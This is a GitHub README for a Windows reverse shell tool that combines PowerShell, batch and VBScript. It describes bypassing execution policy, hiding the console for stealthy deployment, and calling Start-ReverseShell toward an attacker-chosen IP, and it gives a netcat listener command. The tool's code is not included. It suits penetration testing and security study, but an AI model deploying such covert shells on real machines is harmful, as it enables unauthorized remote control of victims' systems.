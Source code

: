 # Reverse-Shell-Monitor

Reverse-Shell-Monitor is a tool designed to initiate a reverse shell connection between a target machine and a server for administrative or testing purposes. The tool uses PowerShell, Batchfile, and VBScript for creating and running the reverse shell script on Windows systems. It is useful for penetration testers, system administrators, or cybersecurity professionals who need to monitor or execute remote commands on a target machine.
Features

Initiates a reverse shell connection from a target machine to a server.
Allows the server to send commands and receive the execution results from the target machine.
Built with PowerShell for efficient scripting.
Automates the execution with Batchfile and VBScript for stealthy deployment on Windows systems.
Includes error handling to ensure reliability and proper cleanup of resources.

## Code Overview

1. reverse-shell.ps1 (PowerShell Script)

This script opens a reverse shell to the specified IP address and port. The server can send commands to the target, which are executed on the target's machine, and the output is sent back to the server.
Parameters:

IPAddress: The IP address of the server (defaults to 192.168.0.105).
Port: The port to which the reverse shell connects (defaults to 4444).

How it works:

A TCP connection is established to the server.
Commands are received from the server.
The script executes the commands using cmd.exe.
The results of the commands are sent back to the server.
The connection continues until terminated by either side.

2. run_script.bat (Batchfile)

This batch file automates the execution of the PowerShell script while bypassing PowerShell's execution policy restrictions.

3. run_script.vbs (VBScript)

This VBScript runs the batch file in the background without showing the console window, providing stealth execution.

## Installation

Clone the repository:

    git clone https://github.com/Giddy-K/Reverse-Shell-Monitor.git
    cd Bare_metal

Modify the reverse-shell.ps1 script with your server's IP address and port:

    Start-ReverseShell -IPAddress 'YOUR_SERVER_IP' -Port YOUR_PORT

Place the run_script.bat and run_script.vbs files in the same directory as reverse-shell.ps1.

Run the run_script.vbs file to start the reverse shell in the background:
Double-click the .vbs file for stealth execution.

## Usage

Start a listener on your server (using Netcat or another tool):

    nc -lvp 4444

Once the target machine runs the script, you can begin sending commands to the target.

## Disclaimer

This project is for educational purposes only. Unauthorized use of this tool is prohibited. The authors are not responsible for any misuse or damage caused by this software.

## Tags

    Python
    PowerShell
    Shell
    VBScript
    Batchfile

## License

This project is licensed under the MIT License.

## Contributors

    Gideon Kipamet - [GitHub](https://github.com/Giddy-K)

Feel free to contribute and add your socials, GitHub profile, or name here.
